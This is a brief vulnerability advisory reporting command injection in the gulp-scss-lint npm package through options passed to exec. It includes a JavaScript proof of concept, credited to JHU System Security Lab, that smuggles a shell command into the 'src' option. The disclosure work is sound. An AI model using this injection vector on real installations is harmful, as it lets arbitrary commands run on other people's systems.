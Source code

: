 # Overview
`gulp-scss-lint` is a Lint for your .scss files, this package is vulnerable to Command Injection.

It is possible to inject arbitrary commands to the exec function located in `src/command.js` via the provided options.

# Proof of Concept by JHU System Security Lab
```
var root = require("gulp-scss-lint");
var attack_code = "echo vulnerable > create.txt";
var opt = {
  "src": attack_code
}
root(opt);
```